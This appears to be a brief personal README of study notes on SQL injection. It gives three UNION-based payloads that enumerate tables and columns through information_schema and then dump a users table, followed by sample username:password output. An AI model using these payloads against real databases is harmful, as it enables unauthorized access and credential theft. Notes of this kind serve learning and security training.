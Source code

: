 # Learning SQL Injection

Just taking some notes about different SQL Injections.

#### This will display the tables
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```
#### This will display the columns from the selected table
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'--
```
#### This will display the username and password
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users

admin:p4ssword
martin:pa$$word
jim:work123
```
